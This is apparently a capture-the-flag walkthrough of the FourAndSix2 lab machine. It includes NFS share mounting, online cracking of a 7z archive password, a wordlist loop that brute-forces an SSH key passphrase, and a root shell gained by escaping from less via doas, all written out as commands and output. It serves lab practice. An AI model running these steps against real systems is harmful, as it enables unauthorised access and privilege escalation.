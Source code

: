 FourAndSix2

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Mounting NFS share
[+] 7z password cracking online
[+] Cracking id_rsa password
[+] Privilege Escalation abusing SUID file
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.106
Host is up (0.00034s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 ef:3b:2e:cf:40:19:9e:bb:23:1e:aa:24:a1:09:4e:d1 (RSA)
|   256 c8:5c:8b:0b:e1:64:0c:75:c3:63:d7:b3:80:c9:2f:d2 (ECDSA)
|_  256 61:bc:45:9a:ba:a5:47:20:60:13:25:19:b0:47:cb:ad (ED25519)
111/tcp  open  rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100003  2,3         2049/tcp  nfs
|   100003  2,3         2049/udp  nfs
|   100005  1,3          782/udp  mountd
|_  100005  1,3          851/tcp  mountd
2049/tcp open  nfs     2-3 (RPC #100003)
MAC Address: 08:00:27:41:81:5A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: OpenBSD 6.X
OS CPE: cpe:/o:openbsd:openbsd:6
OS details: OpenBSD 6.0 - 6.1
Network Distance: 1 hop

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Mount Present

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setrus@host:~$ showmount -e 192.168.56.106
Export list for 192.168.56.106:
/home/user/storage (everyone)
setrus@host:~$ sudo mount -t nfs 192.168.56.106:/home/user/storage /mnt/462/
setrus@host:~$ ls /mnt/462
backup.7z
setrus@host:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Tha zip is password protected. John was not able to crack the password but we were able to get the zip dearchived with password :  chocolate
https://www.lostmypass.com/file-types/7z/

![Alt Tag]()

We get the account to login to the server 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDClNemaX//nOugJPAWyQ1aDMgfAS8zrJh++hNeMGCo+TIm9UxVUNwc6vhZ8apKZHOX0Ht+MlHLYdkbwSinmCRmOkm2JbMYA5GNBG3fTNWOAbhd7dl2GPG7NUD+zhaDFyRk5gTqmuFumECDAgCxzeE8r9jBwfX73cETemexWKnGqLey0T56VypNrjvueFPmmrWCJyPcXtoLNQDbbdaWwJPhF0gKGrrWTEZo0NnU1lMAnKkiooDxLFhxOIOxRIXWtDtc61cpnnJHtKeO+9wL2q7JeUQB00KLs9/iRwV6b+kslvHaaQ4TR8IaufuJqmICuE4+v7HdsQHslmIbPKX6HANn user@fourandsix2
root@setrus:~# ssh user@192.168.56.106 -i id_rsa
Enter passphrase for key 'id_rsa': 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


There is a password for id_rsa :  123456789

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
cat /usr/share/wordlists/metasploit/adobe_top100_pass.txt | while read pass; do if ssh-keygen –c –C "user@forandsix" –P $pass –f id_rsa &>/dev/null; then echo $pass; break; fi; done

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Account user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh user@192.168.56.106 -i id_rsa
Enter passphrase for key 'id_rsa': 
Last login: Mon Oct 29 13:53:51 2018 from 192.168.1.114
OpenBSD 6.4 (GENERIC) #349: Thu Oct 11 13:25:13 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

fourandsix2$ id
uid=1000(user) gid=1000(user) groups=1000(user), 0(wheel
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
fourandsix2$ find / -perm -u=s -type f 2>/dev/null 
/usr/bin/chfn
/usr/bin/chpass
/usr/bin/chsh
/usr/bin/doas
/usr/bin/lpr
/usr/bin/lprm
/usr/bin/passwd
/usr/bin/su
/usr/libexec/lockspool
/usr/libexec/ssh-keysign
/usr/sbin/authpf
/usr/sbin/authpf-noip
/usr/sbin/pppd
/usr/sbin/traceroute
/usr/sbin/traceroute6
/sbin/ping
/sbin/ping6
/sbin/shutdown


ourandsix2$ cat /etc/doas.conf                                                
permit nopass keepenv user as root cmd /usr/bin/less args /var/log/authlog
permit nopass keepenv root as root


fourandsix2$ doas /usr/bin/less /var/log/authlog
/var/log/authlog already locked, session is read-only
Press Enter to continue: 

v (to get into vi)

:!sh 

Press any key to continue [: to enter more ex commands]: 
fourandsix2# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
fourandsix2# 



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~






